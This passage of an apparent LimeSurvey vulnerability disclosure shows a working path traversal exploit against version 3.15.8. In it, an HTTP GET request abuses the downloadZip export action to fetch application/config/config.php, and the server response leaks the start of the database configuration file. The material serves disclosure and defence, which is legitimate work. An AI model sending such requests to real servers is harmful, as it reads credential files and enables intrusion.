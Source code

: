 ## Exploitation in Previous Versions

In previous versions of LimeSurvey, for example in 3.15.8, the exploitation vector changes as follows. Credits to Alejandro Parodi for payload generation.

---

**HTTP Request:**

```http
GET /index.php?sZip=../application/config/config.php&r=admin/export/sa/downloadZip HTTP/1.1
Host: demo.limesurvey.org
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://demo.limesurvey.org/index.php?r=admin/survey/sa/listsurveys/active/Y
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Cookie: PHPSESSID=1271dn8v8kaum3i1esap4huti2; YII_CSRF_TOKEN=Y090aExYVEY1MllyZX5xREl1RE9qdDZFX2NCam13ZG0XxMSEeBdhJpz-XHL05irg2AUNbmc1Uccgag4YR_bkrQ%3D%3D
```

---

**HTTP Response:**

```http
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Fri, 08 Mar 2019 05:04:15 GMT
Content-Type: application/force-download; charset=UTF-8
Connection: close
Content-Disposition: attachment; filename=surveys_archive.zip
Expires: 0
Last-Modified: Fri, 08 Mar 2019 05:04:15 GMT
Cache-Control: must-revalidate, post-check=0, pre-check=0
Pragma: public
Content-Security-Policy: worker-src www.limesurvey.org 'self'; connect-src 'self'; default-src 'self' www.limesurvey.org fonts.gstatic.com; font-src 'self' fonts.gstatic.com netdna.bootstrapcdn.com github.com; form-action 'self'; frame-src www.limesurvey.org 'self' www.limesurvey.com; img-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval' maps.googleapis.com ajax.googleapis.com; style-src 'self' 'unsafe-inline' fonts.googleapis.com; frame-ancestors 'self';
Content-Length: 3115

<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
/*
| -------------------------------------------------------------------
| DATABASE CONNECTIVITY SETTINGS
| -------------------------------------------------------------------
| This file will contain the settings needed to access your database.
|
| For complete instructions please consult the 'Database Connection'
| page of the User Guide.
|
| -------------------------------------------------------------------
| EXPLANATION OF VARIABLES
| -------------------------------------------------------------------
|
| 'connectionString' Hostname, database, port and database type for
| the connection. Driver example: mysql. Currently supported:
| mysql, pgsql, mssql, sqlite, oci
| 'username' The username used to connect to the database
| 'password' The password used to connect to the database
| 'tablePrefix' You can add an optional prefix, which will be added
```